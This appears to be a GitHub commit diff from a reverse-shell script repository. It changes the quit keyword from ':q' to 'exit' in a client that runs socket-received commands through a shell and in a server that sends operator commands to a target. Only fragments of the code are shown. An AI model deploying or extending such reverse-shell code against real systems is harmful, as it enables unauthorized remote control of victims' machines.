

Add remote command execution - server.py / Update README.md

Changed region(s): [[0.0, 0.0, 0.9968, 1.0]]

diff --git a/Reverse_Shell_Scripts/reverseShell.py b/Reverse_Shell_Scripts/reverseShell.py
@@ -8,7 +8,7 @@ import subprocess
 def shell():
     while True:
         command = sock.recv(1024)
-        if command.decode() == ':q':
+        if command.decode() == 'exit':
             break
         else:
             proc = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)

diff --git a/Reverse_Shell_Scripts/server.py b/Reverse_Shell_Scripts/server.py
@@ -10,7 +10,7 @@ def shell():
     while True:
         command = input("Shell#~%s: " % str(ip))
         target.send(command.encode())
-        if command == ':q':
+        if command == 'exit':
             break
         else:
             result = target.recv(1024)
